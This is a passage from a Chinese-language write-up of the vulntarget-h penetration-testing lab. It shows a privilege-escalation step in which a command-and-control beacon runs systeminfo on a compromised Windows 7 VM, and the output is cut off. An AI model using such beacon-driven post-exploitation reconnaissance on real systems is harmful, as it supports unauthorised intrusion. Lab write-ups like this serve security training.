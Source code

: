 > ![Screenshot_2022-07-02_08-02-35.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-02_08-02-35.png)
> 
> + 提升权限。
> 
> + 使用`systeminfo`命令并没有找到可以提升权限的漏洞。
> 
> ```bash
> beacon> shell systeminfo
> [*] Tasked beacon to run: systeminfo
> [+] host called home, sent: 41 bytes
> [+] received output:
> 
> 主机名:           WIN-HF4NQED9HKF
> OS 名称:          Microsoft Windows 7 企业版 
> OS 版本:          6.1.7601 Service Pack 1 Build 7601
> OS 制造商:        Microsoft Corporation
> OS 配置:          独立工作站
> OS 构件类型:      Multiprocessor Free
> 注册的所有人:     Windows 用户
> 注册的组织:       
> 产品 ID:          00392-918-5000002-85557
> 初始安装日期:     2022/3/30, 10:48:57
> 系统启动时间:     2022/7/2, 13:07:54
> 系统制造商:       VMware, Inc.
> 系统型号:         VMware Virtual Platform
> 系统类型:         x64-based PC
> 处理器:           安装了 2 个处理器。
>                   [01]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~3000 Mhz
>                   [02]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~3000 Mhz
> BIOS 版本:        Phoenix Technologies LTD 6.00, 2020/11/12
> Windows 目录:     C:\Windows
> 系统目录:         C:\Windows\system32
> 启动设备:         \Device\HarddiskVolume1
